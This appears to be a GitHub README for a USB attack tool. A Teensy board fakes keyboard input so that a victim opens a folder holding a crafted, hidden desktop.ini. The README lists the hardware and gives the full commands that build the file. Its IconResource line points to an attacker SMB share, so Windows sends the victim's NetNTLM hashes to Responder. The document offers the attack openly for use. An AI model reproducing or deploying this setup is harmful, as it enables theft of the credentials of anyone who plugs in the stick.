 # Goal

Put a malicious Desktop.ini file on a USB Stick in order to perform a SMB request on the network. The SMB request will be sent to Responder ;)
Idea came from: https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/ 

In order to help the user to open the malicious folder, autorun will be emulated with keyboard functionality from the Teensy.

# Requirements

- Teensy 2 – 16$ - https://www.pjrc.com/store/teensy.html 
- Micro SD support – 8$ - https://www.pjrc.com/store/sd_adaptor.html 
- 3.3V Regulator – 1$ - https://www.pjrc.com/store/mcp1825.html 
- SD Card

# Setup

## Hardware

Add SD Card support to your Teensy 2: https://www.pjrc.com/teensy/sd_adaptor.html

## Software

Upload the INO code to a Teensy 2 with a SD Card. On the SD card create a "test" folder and then configure your Desktop.ini file.

```
mkdir test
attrib +s test
cd test
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\192.168.0.1\aa >> desktop.ini
attrib +s +h desktop.ini
```
